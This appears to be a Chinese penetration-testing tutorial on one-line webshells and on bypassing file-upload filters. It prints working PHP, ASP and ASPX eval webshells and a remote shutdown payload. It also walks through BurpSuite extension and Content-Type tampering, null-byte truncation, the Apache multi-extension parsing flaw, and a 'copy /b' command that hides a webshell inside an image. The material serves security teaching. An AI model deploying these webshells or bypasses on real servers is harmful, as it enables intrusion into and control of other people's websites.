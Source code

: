 ## 一句话木马

### 以php为例

在渗透测试中，测试人员往往会上传一个一句话木马到服务器上从而获取系统权限。

    <?php
    @eval($_POST['s']);
    ?>

这句话的意思： 以php代码的形式，执行 method 为 POST，键为 s 的字符串。

@ 函数报错 不显示

eval() 使后面的字符串转成php代码执行。

[$_POST]( https://www.w3school.com.cn/php/php_forms.asp ) 用于收集来自method = “post”的表单的值。

表单域的名称会自动成为 $_POST 数组中的键

$_POST[‘s’]  全局变量中 

键： key = ‘s’,  

值： value = ‘echo 22’(可以是任意形式的php代码)

也就是说，可以post任意形式的php代码到web中。

冰蝎 value 开发 形成工具。

### 使用条件

1. 木马可以上传到服务器，且免杀。

2. 知道木马的URL。

3. 木马文件正常运行。

接下来，我们只需要向木马文件发送请求，就可以成功入侵该服务器。

以上述PHP语句为例，我们可以向它发送一个PHP语句，它便会在服务器上运行。如果我们向一台Windows系统的服务器发送"system('shutdown -s -t 0');"便可以控制这台服务器关机，如果是Linux系统的话则会稍微麻烦一点，我们首先需要获取root权限，然后才能执行关机命令。

这种木马的优点就是体积小、隐蔽性好。而相应的缺点就是过于简单，容易被网站管理员或杀毒软件查杀，且必须知道服务器所使用的语言环境，如果服务器使用的是jsp，你上传的是PHP，那么则无法成功入侵。


### webshell

WebShell就是以asp、php、jsp或者cgi等网页文件形式存在的一种命令执行环境，也可以将其称做为一种网页后门。黑客在入侵了一个网站后，通常会将asp或php后门文件与网站服务器WE目录下正常的网页文件混在一起，然后就可以使用浏览器或工具来访问asp或者php后门，得到一个命令执行环境，以达到控制网站服务器的目的。

通常来说，上传一句话木马通过中国菜刀连接是比较简便地拿到服务器的方法。菜刀可以连接asp、aspx、php、jsp的一句话木马。

    asp：
    <%eval request("pass")%>

    aspx:
    <%@ Page Language="Jscript"%><%eval(Request.Item["pass"],"unsafe");%>

    php:
    <?php @eval($_POST['pass']);?>


### 防御 上传文件过滤
通常会有文件类型限制、文件大小限制等过滤方式。文件类型限制最为常见，一般有前台文件扩展名检测、服务器端扩展名检测、content-type 参数检测或文件内容检测。

#### 前台脚本检测扩展名

当用户在客户端选择文件点击上传的时候，客户端还没有向服务器发送任何消息，就对本地文件进行检测来判断是否是可以上传的类型，这种方式称为前台脚本检测扩展名。

绕过前台脚本检测扩展名，就是将所要上传文件的扩展名更改为符合脚本检测规则的扩展名，通过BurpSuite工具，截取数据包，并将数据包中文件扩展名更改回原来的，达到绕过的目的。

#### Content-Type文件类型检测

Content-Type，内容类型，是网页请求中附带的参数，用于定义网络文件的类型和网页的编码，决定文件接收方将以什么形式、什么编码读取这个文件，这就是经常看到一些Asp网页点击的结果却是下载到的一个文件或一张图片的原因。

ContentType 一般参数有

application/x-cdf 应用型文件
text/HTML 文本
image/JPEG jpg 图片
image/GIF gif图片
当浏览器在上传文件到服务器的时候，服务器对说上传文件的 Content-Type 类型进行检测，如果是白名单允许的，则可以正常上传，否则上传失败。绕过 Content—Type 文件类型检测，就是用 BurpSuite 截取并修改数据包中文件的 Content-Type 类型，使其符合白名单的规则，达到上传的目的。

#### 服务器端扩展名检测

当浏览器将文件提交到服务器端的时候，服务器端会根据设定的黑白名单对浏览器提交上来的文件扩展名进行检测，如果上传的文件扩展名不符合黑白名单的限制，则不予上传，否则上传成功。

#### 文件内容检测

一般文件内容验证使用getimagesize()函数检测，会判断文件是否是一个有效的文件图片，如果是，则允许上传，否则的话不允许上传。所以经常要将一句话木马插入到一个【合法】的图片文件当中，然后用中国菜刀远程连接。

### 绕过

### 前台过滤绕过

#### 利用00截断上传绕过  前台检测

比如某网站的上传点采用了前端扩展名检测，只允许上传图片文件，而我们要上传一个php木马，可以按照以下步骤

php木马伪装jpg文件

先编写一个一句话木马，命名为【lubr.php.jpg】，因为扩展名检测是从文件名的右边往左读的，当读到第一个【. 】的时候，便通过扩展名确定这个文件的类型。这里就将 php 文件伪装成了jpg 文件。

BurpSuite拦截改2e为00

开启 BurpSuite 的【proxy】 功能，在选择 【lubr.php.jpg】 文件后，点击上传。

这时上传文件的数据包不会直接发往服务器，而是要经由 Burp 来发送，我们在这里可以查看和修改数据包的内容。

点击hex查看十六进制源码， 2e 改为 00。forward。

#### 截断改扩展名绕过  前台检测

与00截断类似，此方法也是通过截断数据包做修改来实现的。如果直接上传php文件，会被拦截。

先写一个php一句话木马，然后在这里命名为 lubr.jpg，而不是php文件

在BurpSuite中会抓到截取的数据包，在数据包中将所上传的文件后缀名由【.jpg】改为【.php】，点击【forward】，传递数据包，前台即可提示，上传【lubr.php】成功。

#### 绕过Content-Type检测文件类型上传

Content-Type如果为【application/octet-stream】，这一般是可运行程序（木马）的类型，因此会拒绝上传。但如果我们将其改为【image/gif】图片类型，可能就能够绕过该检测。

在BurpSuite中会抓到截取的数据包，在数据包中将所上传的文件的Content-Type由【application/octet-stream】改为【image/gif】

### 服务器过滤绕过

#### Apache解析漏洞
Apache 识别文件类型是从右向左识别的，如果如遇不认识的扩展名会向前一次识别，直到遇到能识别的扩展名，因为Apache认为一个文件可以拥有多个扩展名，哪怕没有文件名，也可以拥有多个扩展名。这种漏洞存在于使用module模式与php结合的所有版本的Apache。

假如某网站刚好使用了有解析漏洞版本的Apache，而且其对服务器端对【.php】文件直接上传做了过滤。

因为服务器端对【.php】上传做了过滤，因此无论怎么用BurpSuite修改都不能上传成功。

如果将该木马命名为 【lubr.php.adc】，则显示上传成功。

因为服务器端黑名单只限制了几种扩展名的上传，而其他扩展名都是合法的，不论这种扩展名是否有效，而apache却能识别无效的扩展名并不予解析，这种不对称的扩展名识别造成了上传漏洞的产生。

菜刀也不识别【.abc】，直接解析【.php】，连接成功。

#### 图片马

随便找一个图片，将其与要上传的木马置于同一文件夹下
打开cmd，进入该文件夹，输入

copy doram.jpg/b+lubr.php/a xiaoma.jpg

将【lubr.php】插入到【doram.jpg】中。其中【xiaoma.jpg】是插入后的文件。

用记事本打开【xiaoma.jpg】，发现木马插入到了文件最后。

将文件名改为【xiaoma.jpg.php】，然后上传成功，菜刀连接。

以上就是几种检测情况的绕过方法，真实情况下需各种方式配合使用。



